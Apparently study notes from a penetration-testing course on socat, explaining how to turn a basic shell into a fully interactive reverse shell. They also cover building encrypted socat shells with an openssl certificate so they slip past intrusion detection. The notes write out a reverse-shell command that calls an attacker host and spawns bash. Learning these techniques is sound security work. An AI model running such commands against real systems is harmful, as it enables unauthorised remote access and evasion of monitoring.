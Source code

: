 The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal. The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li", pty, stderr, sigint, setsid, sane`

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

![[Pasted image 20240817172839.png]]

On the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left.

## **Socat Encrypted Shells**  
One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine.  This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

We then need to merge the two created files into a single `.pem` file:
`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. 

*Note:*
	The certificate _must_ be used on whichever device is listening.

